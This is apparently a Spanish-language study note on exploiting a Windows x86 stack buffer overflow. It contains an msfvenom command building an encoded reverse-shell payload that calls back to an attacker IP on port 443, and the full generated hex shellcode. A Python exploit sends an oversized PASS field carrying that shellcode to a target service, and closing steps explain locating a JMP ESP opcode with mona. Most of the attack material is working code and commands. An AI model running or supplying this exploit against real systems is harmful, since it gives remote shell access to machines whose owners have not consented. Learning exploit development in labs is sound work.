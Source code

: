 #BufferOverflow #ShellCode 

Debemos de generar un *shellcode* en hexadecimal a bajo nivel que se encargue de entablar una reverse shell, este *shellcode* será introducido en el *ESP* para que sea interpretado y dos de acceso a la máquina.
Usaremos [[MSFVENOM]]
`msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 LHOST=192.168.1.22 LPORT=443 -f c -e x86/shikata_ga_nai -b '\x00\x0a\x0d' EXITFUNC=thread`
	*-p* = Payload
	*--platform* = SO
	*-a* = Arquitectura
	*LHOST* = IP atacante
	*LPORT* = Puerto de escucha
	*-f* = Formato (ej: py, c, js...)
	*-e* = Encoder
	*-b* = Badchars
	*EXITFUNCT=thread* = Para no romper el proceso principal y el servicio siga estando operativo
	
Nos generara el *shellcode*
```shell
"\xbb\xfb\x85\x16\xf3\xdb\xc2\xd9\x74\x24\xf4\x5a\x2b\xc9"
"\xb1\x52\x31\x5a\x12\x03\x5a\x12\x83\x11\x79\xf4\x06\x19"
"\x6a\x7b\xe8\xe1\x6b\x1c\x60\x04\x5a\x1c\x16\x4d\xcd\xac"
"\x5c\x03\xe2\x47\x30\xb7\x71\x25\x9d\xb8\x32\x80\xfb\xf7"
"\xc3\xb9\x38\x96\x47\xc0\x6c\x78\x79\x0b\x61\x79\xbe\x76"
"\x88\x2b\x17\xfc\x3f\xdb\x1c\x48\xfc\x50\x6e\x5c\x84\x85"
"\x27\x5f\xa5\x18\x33\x06\x65\x9b\x90\x32\x2c\x83\xf5\x7f"
"\xe6\x38\xcd\xf4\xf9\xe8\x1f\xf4\x56\xd5\xaf\x07\xa6\x12"
"\x17\xf8\xdd\x6a\x6b\x85\xe5\xa9\x11\x51\x63\x29\xb1\x12"
"\xd3\x95\x43\xf6\x82\x5e\x4f\xb3\xc1\x38\x4c\x42\x05\x33"
"\x68\xcf\xa8\x93\xf8\x8b\x8e\x37\xa0\x48\xae\x6e\x0c\x3e"
"\xcf\x70\xef\x9f\x75\xfb\x02\xcb\x07\xa6\x4a\x38\x2a\x58"
"\x8b\x56\x3d\x2b\xb9\xf9\x95\xa3\xf1\x72\x30\x34\xf5\xa8"
"\x84\xaa\x08\x53\xf5\xe3\xce\x07\xa5\x9b\xe7\x27\x2e\x5b"
"\x07\xf2\xe1\x0b\xa7\xad\x41\xfb\x07\x1e\x2a\x11\x88\x41"
"\x4a\x1a\x42\xea\xe1\xe1\x05\xd5\x5e\xe8\xc3\xbd\x9c\xea"
"\xea\x86\x28\x0c\x86\xe8\x7c\x87\x3f\x90\x24\x53\xa1\x5d"
"\xf3\x1e\xe1\xd6\xf0\xdf\xac\x1e\x7c\xf3\x59\xef\xcb\xa9"
"\xcc\xf0\xe1\xc5\x93\x63\x6e\x15\xdd\x9f\x39\x42\x8a\x6e"
"\x30\x06\x26\xc8\xea\x34\xbb\x8c\xd5\xfc\x60\x6d\xdb\xfd"
"\xe5\xc9\xff\xed\x33\xd1\xbb\x59\xec\x84\x15\x37\x4a\x7f"
"\xd4\xe1\x04\x2c\xbe\x65\xd0\x1e\x01\xf3\xdd\x4a\xf7\x1b"
"\x6f\x23\x4e\x24\x40\xa3\x46\x5d\xbc\x53\xa8\xb4\x04\x73"
"\x4b\x1c\x71\x1c\xd2\xf5\x38\x41\xe5\x20\x7e\x7c\x66\xc0"
"\xff\x7b\x76\xa1\xfa\xc0\x30\x5a\x77\x58\xd5\x5c\x24\x59"
"\xfc"
```

Este código lo implementaremos en el exploit:
```python
	#!/usr/bin/python3
	
	import socket
	import sys
	
	#Variables globales
	ip_adress = <IP_Victima>
	port = <Puerto>
	offset = 4654 #Ofset que nos ha dado metasploit
	
	before_eip = b"A"*offset #Cadena de A antes de llegar al offset(valor del EIP)
	eip = b"B"*4 #Cadena con el valor del EIP, es *4 por que es la capacidad del registro EIP
	
	shellcode = (b"\xbb\xfb\x85\x16\xf3\xdb\xc2\xd9\x74\x24\xf4\x5a\x2b\xc9"
				 b"\xb1\x52\x31\x5a\x12\x03\x5a\x12\x83\x11\x79\xf4\x06\x19"
				 b"\x6a\x7b\xe8\xe1\x6b\x1c\x60\x04\x5a\x1c\x16\x4d\xcd\xac"
				 b"\x5c\x03\xe2\x47\x30\xb7\x71\x25\x9d\xb8\x32\x80\xfb\xf7"
				 b"\xc3\xb9\x38\x96\x47\xc0\x6c\x78\x79\x0b\x61\x79\xbe\x76"
				 b"\x88\x2b\x17\xfc\x3f\xdb\x1c\x48\xfc\x50\x6e\x5c\x84\x85"
				 b"\x27\x5f\xa5\x18\x33\x06\x65\x9b\x90\x32\x2c\x83\xf5\x7f"
				 b"\xe6\x38\xcd\xf4\xf9\xe8\x1f\xf4\x56\xd5\xaf\x07\xa6\x12"
				 b"\x17\xf8\xdd\x6a\x6b\x85\xe5\xa9\x11\x51\x63\x29\xb1\x12"
				 b"\xd3\x95\x43\xf6\x82\x5e\x4f\xb3\xc1\x38\x4c\x42\x05\x33"
				 b"\x68\xcf\xa8\x93\xf8\x8b\x8e\x37\xa0\x48\xae\x6e\x0c\x3e"
				 b"\xcf\x70\xef\x9f\x75\xfb\x02\xcb\x07\xa6\x4a\x38\x2a\x58"
				 b"\x8b\x56\x3d\x2b\xb9\xf9\x95\xa3\xf1\x72\x30\x34\xf5\xa8"
				 b"\x84\xaa\x08\x53\xf5\xe3\xce\x07\xa5\x9b\xe7\x27\x2e\x5b"
				 b"\x07\xf2\xe1\x0b\xa7\xad\x41\xfb\x07\x1e\x2a\x11\x88\x41"
				 b"\x4a\x1a\x42\xea\xe1\xe1\x05\xd5\x5e\xe8\xc3\xbd\x9c\xea"
				 b"\xea\x86\x28\x0c\x86\xe8\x7c\x87\x3f\x90\x24\x53\xa1\x5d"
				 b"\xf3\x1e\xe1\xd6\xf0\xdf\xac\x1e\x7c\xf3\x59\xef\xcb\xa9"
				 b"\xcc\xf0\xe1\xc5\x93\x63\x6e\x15\xdd\x9f\x39\x42\x8a\x6e"
				 b"\x30\x06\x26\xc8\xea\x34\xbb\x8c\xd5\xfc\x60\x6d\xdb\xfd"
				 b"\xe5\xc9\xff\xed\x33\xd1\xbb\x59\xec\x84\x15\x37\x4a\x7f"
				 b"\xd4\xe1\x04\x2c\xbe\x65\xd0\x1e\x01\xf3\xdd\x4a\xf7\x1b"
				 b"\x6f\x23\x4e\x24\x40\xa3\x46\x5d\xbc\x53\xa8\xb4\x04\x73"
				 b"\x4b\x1c\x71\x1c\xd2\xf5\x38\x41\xe5\x20\x7e\x7c\x66\xc0"
				 b"\xff\x7b\x76\xa1\xfa\xc0\x30\x5a\x77\x58\xd5\x5c\x24\x59"
				 b"\xfc")
	
	payload = before_eip + eip + shellcode
	
	#Exploit
	def exploit():
		
		#Crar socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		
		#Conectar con el servidor
		s.connect((ip_adress, port))
		
		#Recibir la respuest(banner)
		banner = s.recv(1024)
		
		s.send(b"USER test" + b'\r\n') #Enviamos un usuario en el campo USER aleatorio en este caso TEST
		response = s.recv(1024)
		s.send(b"PASS " + payload + b'\r\n') #En el campo PASS introducira el payload que es igual a 4654 + eip
		s.close()
		
	if __name__ == '__main__':
		
		exploit()
```


Una vez detectados los *badchars* y generado el *shellcode* tendremos que buscar un *OpCode (Operaration Code)* que ejecute un *jump* a *ESP*
Para eso usaremos `!mona modules` en donde las 4 primeras columnas tienes que estar en FALSE, nos copiamos la dirección del modulo.
Ahora buscaremos la instrucción tipo *jump ESP* para ver si dentro del modulo que hemos encontrado hace esta *OpCode*
Para saber el *OpCode* usaremos `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb`


